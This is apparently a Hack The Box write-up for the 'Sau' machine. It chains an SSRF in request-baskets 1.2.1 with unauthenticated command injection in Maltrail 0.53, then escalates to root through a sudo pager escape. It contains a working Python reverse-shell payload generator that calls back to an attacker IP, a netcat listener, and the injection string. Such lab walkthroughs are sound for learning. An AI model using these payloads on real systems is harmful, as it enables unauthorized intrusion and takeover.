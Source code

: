 # Sau

## Enumeration(nmap):
Initial: `nmap -vv -sS -oN nmap/init -A 10.129.30.180`
Found open :

	- 22 ssh
	- 80 http
	- 55555 unknown

---

HTTP Service on port 80 is unreachable so i tried to access
the service running on 55555 to see if it's a website and success.
The services hosted is an http request inspector
![/web of 55555](screenshots/home-page-req-bask.png)

## Research
Before trying anything else i saw at that the footer contains 
the software and the version used `Powered by request-baskets | Version: 1.2.1`
so i just searched to see if any public CVE's exist. I went 
to the github repo of [request baskets](https://github.com/darklynx/request-baskets)
and straight up to the issues and sure enough a [CVE](https://github.com/entr0pie/CVE-2023-27163/tree/main) was present

![issues](screenshots/git-issues-req-bask.png)
So an SSRF vulnerability (CVE-2023-27163) is present and since i saw open port 80
but cannot access it, i asume it blocks external ips
or just has a whitelist so i attempt to take a sneek
peek 

## Exploitation
![first use of cve](screenshots/ssrf-for-home-of-80.png)
![home page of 80](screenshots/local-home-page-80.png)

The service running on port 80 is Powered by Maltrail (v0.53) 
which after searching has [Unauthenticated OS Command Injection Maltrail <= v0.54 (Did not recieve a CVE)](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)
After locating a [POC](https://github.com/spookier/Maltrail-v0.53-Exploit) written in python,
i only took the curl_cmd function cause in order to get rce i have 
to chain the two vulnerabilities i found, i only want the data 
porivided by the function to use as url parameters,
in a sense this is trial and error cause i don't actualy 
know if the service accepts the data as url parameters
so this was done blindly but let's attempt it

```py
import base64

def main():
	my_ip = "10.10.14.87"
	my_port = 4444
	target_url = "http://127.0.0.1/login"
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()
	parameters = f"username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`"
	print(parameters)

if __name__ == "__main__":
	main()
```

## RCE:
![payload generation](screenshots/payload-gen.png)

After i generated the payload i went to [CyberChef](https://gchq.github.io/CyberChef/) and URL-Encoded it
![payload html encoding](screenshots/cyberchef.png)

Before executing the exploit i start a netcat listener on port 4444
```sh
nc -l 4444
```
And.....
![rce](screenshots/rce.png)


Now i'm able to execute command on the remote machine 
within the terminal so i go and retrieve the flag.
```sh
➜  Sau nc -l 4444
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$
$ ls -la /home/puma
ls -la /home/puma
total 32
drwxr-xr-x 4 puma puma 4096 Jun 19  2023 .
drwxr-xr-x 3 root root 4096 Apr 15  2023 ..
lrwxrwxrwx 1 root root    9 Apr 14  2023 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15  2023 .cache
drwx------ 3 puma puma 4096 Apr 15  2023 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Dec 30 18:11 user.txt
$ cat /home/puma/user.txt
cat /home/puma/user.txt
HTB{Us3R_FL4G_R3dUct3d}
$
```

In order to enumerate and attempt to escalate my privileges
i first want to have a full tty shell

## Full TTY:
[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

![sudo list](screenshots/sudo.png)

Okay so i didn't have to do much digging the hard part is over,
now when executing this command you will be prompted to an environment 
like vim/less so the only thing i have to do is **execute->** `!` the **program->** `sh` and since
the parrent process has root privileges by sudo, the resulting shell will have the same privileges.

![getting-root](screenshots/priv-esc.png) 
```sh
# cd /root
cd /root
# ls
ls
go  root.txt
# cat root.txt
cat root.txt
HTB{R00t_FL4G_R3dUct3d}
#
```


# Resources:
https://github.com/darklynx/request-baskets/issues/91
https://github.com/entr0pie/CVE-2023-27163/tree/main
https://github.com/spookier/Maltrail-v0.53-Exploit
https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
